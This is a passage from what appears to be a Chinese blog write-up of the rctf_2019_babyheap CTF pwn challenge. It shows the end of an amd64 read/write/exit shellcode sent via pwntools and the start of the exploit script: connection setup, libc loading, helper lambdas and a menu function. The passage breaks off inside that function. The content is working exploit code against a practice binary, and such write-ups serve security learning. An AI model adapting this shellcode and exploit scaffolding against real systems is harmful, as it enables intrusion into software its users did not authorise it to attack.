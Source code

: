 	mov rdi, rax ;// fd 
	mov rsi,rsp  ;
	mov rdx, 1024 ;// nbytes
	mov rax,0 ;// SYS_read
	syscall

	mov rdi, 1 ;// fd 
	mov rsi, rsp ;// buf
	mov rdx, rax ;// count 
	mov rax, 1 ;// SYS_write
	syscall

	mov rdi, 0 ;// error_code
	mov rax, 60
	syscall
	'''
	sl(asm(shellcode2))
	itr()

 
	
![在这里插入图片描述](https://img-blog.csdnimg.cn/7f499b7e484a41cf8d8efde596b692d9.png)
## exp

	# coding=utf-8
	from pwn import *
	#sh = remote("node4.buuoj.cn", 29278)
	sh = process('./rctf_2019_babyheap')
	context(log_level = 'debug', arch = 'amd64', os = 'linux')
	elf = ELF("./rctf_2019_babyheap")
	libc = ELF('../../libc-2.23.so--64')
	def dbg():
	        gdb.attach(sh)
	        pause()
	
	#命令简写化
	s       = lambda data               :sh.send(data)
	sa      = lambda delim,data         :sh.sendafter(delim, data)
	sl      = lambda data               :sh.sendline(data)
	sla     = lambda delim,data         :sh.sendlineafter(delim, data)
	r       = lambda num=4096           :sh.recv(num)
	ru      = lambda delims   :sh.recvuntil(delims)
	itr     = lambda                    :sh.interactive()
	uu32    = lambda data               :u32(data.ljust(4,'\0'))
	uu64    = lambda data               :u64(data.ljust(8,'\0'))
	leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
	lg=lambda address,data:log.success('%s: '%(address)+hex(data))
	
	 
	def add(size):
		ru("Choice: \n")
		sl('1')
		ru("Size: ")
		sl(str(size))
	